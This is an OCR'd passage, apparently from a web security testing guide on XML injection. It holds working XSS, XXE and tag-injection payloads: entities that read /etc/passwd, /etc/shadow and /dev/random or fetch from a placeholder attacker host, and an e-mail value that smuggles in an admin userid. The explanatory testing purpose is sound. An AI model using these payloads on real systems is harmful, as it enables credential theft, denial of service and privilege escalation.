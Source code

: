 <script>
alert('XSS')

</script>
'''

The result is that the application is vulnerable to XSS.

**External Entity:** The set of valid entities can be extended by defining new entities. If the definition of an entity is a URI, the entity is called an external entity. Unless configured to do otherwise, external entities force the XML parser to access the resource specified by the URI, e.g., a file on the local machine or on a remote systems. This behavior exposes the application to XML eXternal Entity (XXE) attacks, which can be used to perform denial of service of the local system, gain unauthorized access to files on the local machine, scan remote machines, and perform denial of service of remote systems.

To test for XXE vulnerabilities, one can use the following input:

**`<?xml`` ``version="1.0"`` ``encoding="ISO-8859-1"?>` `<!DOCTYPE`` ``foo`` ``[` `<!ELEMENT`` ``foo`` ``ANY`` ``>` `<!ENTITY`` ``xxe`` ``SYSTEM`` ``"file:///dev/random"`` ``>]><foo>&xxe;</foo>`**

This test could crash the web server (on a UNIX system), if the XML parser attempts to substitute the entity with the contents of the /dev/random file.

Other useful tests are the following:

**`<?xml`` ``version="1.0"`` ``encoding="ISO-8859-1"?>` `<!DOCTYPE`` ``foo`` ``[` `<!ELEMENT`` ``foo`` ``ANY`` ``>` `<!ENTITY`` ``xxe`` ``SYSTEM`` ``"file:///etc/passwd"`` ``>]><foo>&xxe;</foo>` `<?xml`` ``version="1.0"`` ``encoding="ISO-8859-1"?>` `<!DOCTYPE`` ``foo`` ``[` `<!ELEMENT`` ``foo`` ``ANY`` ``>` `<!ENTITY`` ``xxe`` ``SYSTEM`` ``"file:///etc/shadow"`` ``>]><foo>&xxe;</foo>` `<?xml`` ``version="1.0"`` ``encoding="ISO-8859-1"?>` `<!DOCTYPE`` ``foo`` ``[` `<!ELEMENT`` ``foo`` ``ANY`` ``>` `<!ENTITY`` ``xxe`` ``SYSTEM`` ``"file:///c:/boot.ini"`` ``>]><foo>&xxe;</foo>` `<?xml`` ``version="1.0"`` ``encoding="ISO-8859-1"?>` `<!DOCTYPE`` ``foo`` ``[` `<!ELEMENT`` ``foo`` ``ANY`` ``>` `<!ENTITY`` ``xxe`` ``SYSTEM`` ``"http://www.attacker.com/text.txt"`` ``>]><foo>&xxe;</foo>`**

### Tag Injection

Once the first step is accomplished, the tester will have some information about the structure of the XML document. Then, it is possible to try to inject XML data and tags. We will show an example of how this can lead to a privilege escalation attack.

Let's considering the previous application. By inserting the following values:

**`Username:`` ``tony`**\
**`Password:`` ``Un6R34kb!e`**\
**`E-mail:`` ``s4tan@hell.com`</mail><userid>`0`</userid><mail>`s4tan@hell.com`**

the application will build a new node and append it to the XML database:

**`<?xml`` ``version="1.0"`` ``encoding="ISO-8859-1"?>` `<users>` `<user>` `<username>gandalf</username>` `<password>!c3</password>` `<userid>0</userid>` `<mail>gandalf@middleearth.com</mail>` `</user>` `<user>` `<username>Stefan0</username>` `<password>w1s3c</password>` `<userid>500</userid>` `<mail>Stefan0@whysec.hmm</mail>` `</user>` `<user>` `<username>tony</username>` `<password>Un6R34kb!e</password>` `<userid>500</userid>` `<mail>s4tan@hell.com</mail><userid>0</userid><mail>s4tan@hell.com</mail>` `</user>` `</users>`**

The resulting XML file is well formed. Furthermore, it is likely that, for the user tony, the value associated with the userid tag is the one appearing last, i.e., 0 (the admin ID). In other words, we have injected a user with administrative privileges.
